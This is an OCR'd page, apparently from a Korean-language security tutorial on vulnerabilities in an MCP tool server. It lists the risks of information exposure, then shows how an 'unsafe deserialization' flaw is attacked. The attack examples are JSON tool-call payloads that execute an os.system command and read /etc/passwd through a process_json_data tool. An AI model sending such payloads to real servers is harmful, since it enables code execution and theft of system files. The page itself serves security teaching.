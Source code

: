 ### 실제 위험 상황
- API 키, 데이터베이스 크리덴셜 등 민감 정보 노출
- 시스템 구조 파악으로 타겟 공격 가능
- 다른 취약점과 연계한 고도화 공격

---

## 5. 🚨 Unsafe Deserialization (안전하지 않은 역직렬화)

### 공격 시나리오
공격자가 악성 코드를 JSON 형태로 위장하여 서버에서 임의의 Python 코드를 실행하는 상황입니다.

### 실행 예제

#### ✅ 정상적인 사용
```json
{
  "method": "tools/call",
  "params": {
    "name": "process_json_data",
    "arguments": {
      "json_data": "{\"name\": \"John\", \"age\": 30}"
    }
  }
}
```

#### 🚨 공격 예제 1: 시스템 명령어 실행
```json
{
  "method": "tools/call",
  "params": {
    "name": "process_json_data",
    "arguments": {
      "json_data": "__import__('os').system('id')"
    }
  }
}
```

#### 🚨 공격 예제 2: 파일 읽기
```json
{
  "method": "tools/call",
  "params": {
    "name": "process_json_data",
    "arguments": {
      "json_data": "open('/etc/passwd').read()"
    }
  }
}
```
